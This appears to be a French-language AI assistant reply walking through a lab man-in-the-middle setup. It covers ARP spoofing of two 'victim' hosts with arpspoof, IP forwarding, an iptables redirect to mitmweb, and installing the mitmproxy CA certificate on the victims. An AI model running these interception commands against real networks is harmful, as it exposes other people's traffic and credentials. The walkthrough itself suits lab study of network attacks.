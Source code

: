 Oui, il est effectivement possible que les machines victimes doivent accepter les certificats générés par `mitmproxy` pour que les requêtes HTTP soient correctement interceptées et affichées sans erreurs.

Voici les étapes pour installer les certificats `mitmproxy` sur les machines victimes :

### Étape 1 : Générer et Exporter le Certificat `mitmproxy`

1. **Sur la machine attaquante (`Attacker`)**, exécutez `mitmproxy` pour générer le certificat :
   ```sh
   sudo mitmweb -p 8080
   ```

2. **Téléchargez le certificat** :
   - Ouvrez un navigateur sur la machine attaquante et allez à `http://mitm.it`.
   - Téléchargez le certificat pour le système d'exploitation correspondant (par exemple, `mitmproxy-ca-cert.pem`).

### Étape 2 : Installer le Certificat sur les Machines Victimes

#### Pour les Machines Linux (Victim1 et Victim2)

1. **Copiez le certificat** sur les machines victimes. Vous pouvez utiliser `scp` pour copier le fichier :
   - Depuis la machine attaquante (`Attacker`), exécutez :
     ```sh
     scp /path/to/mitmproxy-ca-cert.pem victim1:/tmp/
     scp /path/to/mitmproxy-ca-cert.pem victim2:/tmp/
     ```

2. **Installer le certificat sur les machines victimes** :

   - **Victim1** :
     ```sh
     sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
     sudo update-ca-certificates
     ```

   - **Victim2** :
     ```sh
     sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
     sudo update-ca-certificates
     ```

3. **Redémarrez les navigateurs** sur les machines victimes pour que les nouveaux certificats soient pris en compte.

### Étape 3 : Vérification de la Configuration et du Trafic Intercepté

1. **Depuis les machines victimes (`Victim1` et `Victim2`)**, accédez à un site web en HTTP, par exemple `http://example.com` :
   - Ouvrez un navigateur et allez à `http://example.com`.

2. **Vérifier le trafic intercepté** :
   - Ouvrez l'interface web de `mitmweb` sur la machine attaquante à l'adresse `http://127.0.0.1:8081`.

### Exemple Complet de Commandes

```sh
# Machine Attaquant (Attacker)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo mitmweb -p 8080

# Machine Victime 1 (Victim1)
sudo nano /etc/netplan/00-installer-config.yaml
# Configurez les adresses IP et routes comme indiqué ci-dessus
sudo netplan apply
scp /path/to/mitmproxy-ca-cert.pem victim1:/tmp/
sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
sudo update-ca-certificates

# Machine Victime 2 (Victim2)
sudo nano /etc/netplan/00-installer-config.yaml
# Configurez les adresses IP et routes comme indiqué ci-dessus
sudo netplan apply
scp /path/to/mitmproxy-ca-cert.pem victim2:/tmp/
sudo cp /tmp/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca-cert.crt
sudo update-ca-certificates
```

En suivant ces étapes, vous devriez être en mesure de configurer correctement les certificats `mitmproxy` sur les machines victimes, ce qui permettra à `mitmproxy` d'intercepter correctement le trafic HTTP et d'afficher les requêtes sans erreurs de certificat.
